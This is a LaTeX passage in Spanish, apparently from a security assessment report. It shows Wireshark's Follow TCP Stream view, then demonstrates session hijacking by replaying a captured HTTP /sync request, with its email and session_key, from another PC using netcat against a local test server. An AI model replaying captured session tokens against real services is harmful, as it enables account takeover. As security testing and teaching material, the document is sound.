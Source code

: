 \documentclass[11pt, a4paper, twoside]{article}
\begin{document}
A través de la opción \texttt{Follow TCP Stream}, es posible ver e interpretar el contenido del tráfico interceptado, de forma que pueda ser visto, por ejemplo, codificado en ASCII, o en Hexadecimal. En  es posible observar el resultado de este análisis.

\begin{figure}[H]
\begin{center}
\includegraphics[width=0.7\textwidth]{wireshark-followstream.png}
\end{center}
\caption{Ejemplo transcripción del tráfico HTTP interceptado}
\label{fig:wireshark-followstream}
\end{figure}

\subsubsection{Robo de sesión}
Con el tráfico capturado, podemos realizar la misma petición desde una PC distinta al cliente original. Utilizando el comando \texttt{netcat}, se envió una copia del tráfico capturado al servidor. El resultado de esta prueba se puede observar en  y , en donde se transcribieron el request y la respuesta recibida, respectivamente.

\begin{figure}[H]
\begin{Verbatim}[frame=single,fontsize=\small]
$ nc 192.168.0.103 8888
POST /sync?email=test2%40test.com&session_key=q%2BlY0j%2FmskTx4GC%2F73sgkg%3D%3D HTTP/1.1
Content-Type: application/json; charset=UTF-8
User-Agent: Dalvik/1.6.0 (Linux; U; Android 4.1.2; sdk Build/MASTER)
Host: 192.168.0.103:8888
Connection: Keep-Alive
Accept-Encoding: gzip
Content-Length: 27

["YWJvdXQ6Ymxhbms\u003d\n"]
\end{Verbatim}
\caption{Simulamos un request \textbf{{\color{red}/sync}} desde otra PC}
\label{fig:sync-simulado1}
\end{figure}
\end{document}
